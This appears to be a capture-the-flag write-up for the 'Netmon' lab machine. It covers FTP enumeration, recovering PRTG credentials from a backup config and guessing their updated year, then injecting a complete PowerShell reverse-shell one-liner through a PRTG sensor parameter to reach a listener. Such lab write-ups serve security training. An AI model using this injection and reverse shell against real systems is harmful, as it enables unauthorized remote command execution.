


# Netmon


As per usual, we'll start with ```nmap```.


It looks like we have FTP, RPC, and HTTP services responding on the system.

Let's take a look at the FTP share to see what we have available.


If we dig down into the Users folder, we're able to access the user flag.  Mine kept opening blank in ```mousepad``` when opened from the share, so I copied it to my local machine and opened it.


If we further browse through the FTP share we find ```PRTG Setup Log.log``` located  in ```/Program Files (x86)/PRTG Network Monitor/```.


Looking at the contents of the file we find that the system is Windows version 10.0.14393, which is Windows 10 1607.

If we check HTTP on ports ```5985``` and ```47001```, we receive a 404.  So, being that we know HTTP is being served up, let's check port ```80``` to see if it just didn't respond to ```nmap``` for some reason.


If we look online for default credentials for PRTG Network Monitor, we find a username of "prtgadmin" with a matching password of "prtgadmin".  Let's give that whirl.


No luck there, so let's head back to the FTP share and poke around the file structure.  We already checked the PRTG Network Monitor install folder earlier, but didn't find any credentials.

So, where else does Windows install program data?  Let's check ```ProgramData```.


If we just look in the FTP share, we don't see the ```ProgramData``` folder as it's a hidden folder.  So, let's just try browsing to it manually.


Looks good, now let's dig deeper into the ```Paessler``` folder.

If we browse into the ```PRTG Network Monitor``` folder, we find a ```Configuration Auto-Backups``` folder, which contains a file called ```PRTG Configuration (Update to 18.1.37.13946).zip```.


Let's see what happens if we dig through the file.


Looks like we've found some credentials, however the password is encrypted.

Let's browse back up one directory.  If we look around we find a ```PRTG Configuration.old``` file, but this contains the same encrypted credentials.

However, if we look further, we also find a ```PRTG Configuration.old.bak``` file.


If we look through it, it has the same encrypted credentials as well, however, if we search for the dbpassword, those credentials are in plain text.


What are the chances this password will let us log in to the web console?


No such luck.  However, what if we iterate the password to another year?  The install log file we originally looked at has install dates from 2019, so let's give that a whirl.


Success!  Now that we have working credentials, lets see what we can do.

Let's add a new sensor.


We're going to create it on a new device, choosing the Windows Server group, and then specifying the loop back.


Now let's add a sensor under Device.


Next pick Custom Sensors and EXE/Script.


Let's pick "Demo Powershell Script - Returns a random integer value.ps1" for the EXE/Script and use the following as the parameters:

>```powershell
>";$client = New-Object System.Net.Sockets.TCPClient("10.10.██.█",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();"
>```



Do not click continue yet.

Let's startup a netcat listener on the port we specified above.



Now that the listener is configured, click continue on the sensor creation.

Once the sensor creates and runs itself, we should have a reverse shell.


Now let's get the root flag.


___

[Back](../)
